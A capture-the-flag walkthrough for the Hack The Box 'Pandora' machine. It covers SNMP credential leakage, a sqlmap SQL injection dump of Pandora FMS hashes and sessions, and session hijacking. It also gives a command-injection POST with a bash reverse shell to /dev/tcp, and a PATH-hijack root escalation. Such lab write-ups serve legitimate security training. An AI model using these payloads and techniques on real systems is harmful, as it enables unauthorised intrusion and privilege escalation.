

# pandora CTF | 2/2/2022

### The official [box page](https://app.hackthebox.com/machines/Pandora) on HTB


### Walkthrough
#### Port scan | *IP 10.10.11.136**

First, lets **echo** the ip to the `/etc/hosts` file with `backdoor.htb` name.
```bash
sudo bash -c "echo '10.10.11.136         pandora.htb' >> /etc/hosts"
```
Run a nmap scan [**-sU** for udp scan | **-sC** for default scripting | **-sV** for version detection | **-T4** for timing template ]
### TCP scan:
``` bash 
[werz@Arch pandora]$ nmap -sC -sV pandora.htb -T4
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-18 13:51 CET
Nmap scan report for 10.10.11.136
Host is up (0.090s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.97 seconds
```
According to the nmap scan, It's a ubuntu machine hosting a webpage on port 80 and a ssh port open.

### UDP scan:

``` bash 
[werz@Arch pandora]$ sudo nmap -sU -top-ports=100 pandora.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-18 20:10 UTC
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.089s latency).
Not shown: 99 closed ports
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 95.71 seconds

```
So, there is a **SNMP** protocol (simple network management protocol)  port open on 161.


### Webpage enummeration

I've looked manually for some interseting pages seems nothing helpfull, I'll run a [gobuster](https://github.com/OJ/gobuster) scan.

``` bash 
[werz@Arch pandora]$ gobuster dir -u http://pandora.htb -w ~/opt/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://pandora.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/werz/opt/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/25 17:02:56 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://pandora.htb/assets/]
Progress: 23207 / 220561 (30.1%)                                                ^C

```

Nothing looks interesting, ill try with **virtual hosts**
``` bash
[werz@Arch pandora]$ gobuster vhost -u  http://pandora.htb -w ~/opt/SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt  
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://pandora.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /home/werz/opt/SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.1.0
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
2022/05/25 17:08:41 Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 388 / 19967 (1.94%)^C
```

Also nothing p:

## snmp analysis

> The box is running SNMPv1. SNMP stands for simple network management protocol, and it is used for network management and monitoring. SNMPv1was defined in RFC1157 and was the first iteration of the SNMP protocol. Because of this, it was designed with no encryption. [more](https://www.dpstele.com/snmp/what-does-oid-network-elements.php)

>SNMP gives all kinds of information about a box. For example, it shows some basic information about the host like netstat, ip's, and runnning processes etc..

Let's try to use snmpwalk to connect to that snmap port we've found then pipe it the a file to easier analysis. Snmpwalk can be downloaded from the net-snmp official website.

> **-Cr X** X=threads

I'll try the common community string **public** if it doesn't helps ill try to bruteforce it, the default snmpwalk tool takes much time ill run **snmpbulkwalk** cuz with it you can change threads used.

**-Cr X** | X=threads

``` bash 
[werz@Arch pandora]$ snmpwalk -v 1 -c public pandora.htb > snmpwalk.txt
```
It takes sometime be patient.

``` bash
HOST-RESOURCES-MIB::hrSWRunParameters.843 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
```
As you can see, while I was going through the information I found a clear text username and password, so I used those to log into the machine via SSH.

We are in as Daniel! 

``` bash
daniel@pandora:~$ cat /etc/passwd | grep sh 

root:x:0:0:root:/root:/bin/bash
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
so yeah there is another user, that own the the user flag.

lets take a look for some hosts.

``` bash
daniel@pandora:~$ daniel@pandora:~$ cat /etc/hosts
127.0.0.1 localhost.localdomain pandora.htb pandora.pandora.htb
127.0.1.1 pandora

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Apache site configurations are in `/etc/apache2/sites-enabled`

```
daniel@pandora:/etc/apache2/sites-enabled$ ls
000-default.conf  pandora.conf
```
in this case there is two configurations.

`000-default.conf` file looks like a standard webserver, listening on 80, and hosting out of /var/www/html:


```bash
daniel@pandora:/etc/apache2/sites-enabled$ cat 000-default.conf 
<VirtualHost *:80>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html
```

`pandora.conf` configurations loooks more interesting:

``` bash
daniel@pandora:/etc/apache2/sites-enabled$ cat pandora.conf 
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

It’s  listening on localhost, and the server name is pandora.panda.htb. It’s hosted in /var/www/pandora, and as **matt**.

```bash
daniel@pandora:/var/www$ ll
total 16
drwxr-xr-x  4 root root 4096 Dec  7 14:32 ./
drwxr-xr-x 14 root root 4096 Dec  7 14:32 ../
drwxr-xr-x  3 root root 4096 Dec  7 14:32 html/
drwxr-xr-x  3 matt matt 4096 Dec  7 14:32 pandora/
```

I’ll set pandora.panda.htb to 127.0.0.1 in my /etc/hosts file, then I’ll reconnect my SSH session with `-L 9001:localhost:80` so that 9001 on my local machine now forwards to localhost port 80 on Pandora.
``` bash
ssh -L 9001:localhost:80 daniel@pandora.htb
```


Navigating to localhost.localdomain/pandora_console will show us a login page for some software called Pandora FMS. according to the version that is typed in the bottom the page **v7.0NG.742_FIX_PERL2020** there is are lots of [CVEs](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/) one of the vulns says that its a sql vuln.

The injections is in `/include/chart_generator.php` It passes $_REQUEST['session_id'] to the constructor for a PandoraFMS\User object, and that is not sanitized.

I'll try to request a `?session_id='` parameter to `include/chart_generator.php`, and it returns an SQL error:


I'll use sqlmap for this injection, so I will need to use a great tool called proxychains. Proxychains was designed to create a chain of proxies that allow you to pivot your tools into systems without having to install tools on the other side of whatever you are attacking into.

To use proxychains, we need to specify the dynamic tunnel to pivot through via the `/etc/proxychains.conf` file.

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 	127.0.0.1 9050
socks5 127.0.0.1 9001 daniel HotelBabylon23
```

Now, we can run a sql attack against the chart generator php file.

```bash
[werz@Arch pandora]$ sqlmap --url="http://localhost:9001/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
```

sqlmap dumped a lot of tables `tpassword_history` table looks intersting, lets dump it.
``` bash
[werz@Arch pandora]$ sqlmap --url="http://localhost:9001/pandora_console/include/chart_generator.php?session_id=''" -Ttpassword_history --dump
```
so it contains password hashes for matt and daniel.
```bash
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: pandora
Table: tpassword_history
[2 entries]
+---------+---------+---------------------+----------------------------------+---------------------+
| id_pass | id_user | date_end            | password                         | date_begin          |
+---------+---------+---------------------+----------------------------------+---------------------+
| 1       | matt    | 0000-00-00 00:00:00 | f655f807365b6dc602b31ab3d6d43acc | 2021-06-11 17:28:54 |
| 2       | daniel  | 0000-00-00 00:00:00 | 76323c174bd49ffbbdedf678f6cc89a6 | 2021-06-17 00:11:54 |
+---------+---------+---------------------+----------------------------------+---------------------+
```
We can try to crack them, its a long story to do.

There is a `tsessions_php` table lets to the same.


```bash
[59 entries]
+----------------------------+------------------------------------------------------+-------------+
| id_session                 | data                                                 | last_active |
+----------------------------+------------------------------------------------------+-------------+
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                             | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                 | 1638789018  |
| 0qg7gms27ash6cbpvq6acp901t | NULL                                                 | 1653738015  |
| 1cq3ela4hiscf9d9qajhntq2k1 | NULL                                                 | 1653737956  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                 | 1638792211  |
| 21e8enmvopuoeb8r44q7o34hik | NULL                                                 | 1653737679  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                 | 1638786129  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                             | 1638540332  |
| 36n1kllgd0bh31f9rerm97gbcm | NULL                                                 | 1653736273  |
| 3me2jjab4atfa5f8106iklh4fc | NULL                                                 | 1638795380  |
| 3s03i6t3h6v845tkkig6c09j1s | id_usuario|s:6:"daniel";                             | 1653737556  |
| 4f51mju7kcuonuqor3876n8o02 | NULL                                                 | 1638786842  |
| 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                             | 1638535373  |
| 59qae699l0971h13qmbpqahlls | NULL                                                 | 1638787305  |
| 5fihkihbip2jioll1a8mcsmp6j | NULL                                                 | 1638792685  |
| 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                             | 1638281946  |
| 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                             | 1641195617  |
| 7k3516hk2n20od1bhupf2bafri | NULL                                                 | 1653737430  |
| 81f3uet7p3esgiq02d4cjj48rc | NULL                                                 | 1623957150  |
| 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                             | 1638446321  |
| 8upeameujo9nhki3ps0fu32cgd | NULL                                                 | 1638787267  |
| 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                             | 1638881787  |
| a3a49kc938u7od6e6mlip1ej80 | NULL                                                 | 1638795315  |
| a6s0p2o00rgo3io868lo5p1une | NULL                                                 | 1653738082  |
| agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                             | 1638881664  |
| b1fva3f8svoulqhfjmcuf2f00f | id_usuario|s:6:"daniel";                             | 1653736657  |
| cojb6rgubs18ipb35b3f6hf0vp | NULL                                                 | 1638787213  |
| d0carbrks2lvmb90ergj7jv6po | NULL                                                 | 1638786277  |
| d28798b394ickeqmnfc4q12fkb | NULL                                                 | 1653738044  |
| d8nm5tl88u5n8274it7acl65ko | NULL                                                 | 1653738003  |
| f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                             | 1641200284  |
| fikt9p6i78no7aofn74rr71m85 | NULL                                                 | 1638786504  |
| fqd96rcv4ecuqs409n5qsleufi | NULL                                                 | 1638786762  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                             | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0;  | 1638796349  |
| gf40pukfdinc63nm5lkroidde6 | NULL                                                 | 1638786349  |
| gg7tint1mddo1ou25dqo9p15fh | NULL                                                 | 1653735060  |
```
Nice! so there is matt session ID here. copy it and replace ``PHPSESSID`` cookie with it, and we are in the dashboard as matt

There is a bunch of CVE's that could works.
### [CVE-2020-13851](https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities)

Fire up burpsuite, and set up the proxy.

Then navigate to left menu -> Events > View events
you will see a POST request to `/pandora_console/ajax.php`, send it to the repeater, according to the CVE, we can inject a reverse shell with the page param

```
POST /pandora_console/ajax.php HTTP/1.1
Host: 127.0.0.1:9001
Content-Length: 78
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.67 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://127.0.0.1:9001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:9001/pandora_console/index.php?sec=workspace&sec2=operation/users/user_edit
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq
Connection: close


page=include/ajax/events&perform_event_response=10000000&target=bash -i >%26 /dev/tcp/IP/9090 0>%261&response_id=1
```
you'll have to tweak it a bit to get it to work, like this:

```
bash+-c+"bash+-i+>%26+/dev/tcp/IP/9090+0>%261"&response_id=1
```
Setup a listener then POST the request, you'll end up with **matt** reverse shell!
``` bash
rlwrap nc -lvnp 9090                                            ✔  01:17:40 PM  
Connection from 10.10.11.136:36016
bash: cannot set terminal process group (24702): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/home/matt$ cd ~ && cat user.txt
cd ~ && cat user.txt
53badf9c401fe17227c8a2b015baaaeb
```

Well we are in and we've got the user flag

For now stablize a shell or setup a ssh connection.

## PE

First take a look at the files with suid permissions, here we see that there is a pandora_backup as a binary file

``` bash
matt@pandora:~ find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```
That `pandora_backup` looks intersting, I downloaded it to my machine and did some testing, and it looks like it uses the tar command to compress files. let's create a poisoned tar file and ran the command to gain root access.

inject matt's home path into an environment variable, and run the pandora_backup file

``` bash
matt@pandora:~$ echo "/bin/bash" > tar
matt@pandora:~$ ls
linpeas.sh  tar  user.txt
matt@pandora:~$ cat tar
/bin/bash
matt@pandora:~$ chmod +x tar
matt@pandora:~$ export PATH=/home/matt:$PATH
matt@pandora:~$ echo $PATH
/home/matt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~#
root@pandora:~# cat /root/root.txt
```

We are in as root! and we've got the root flag.
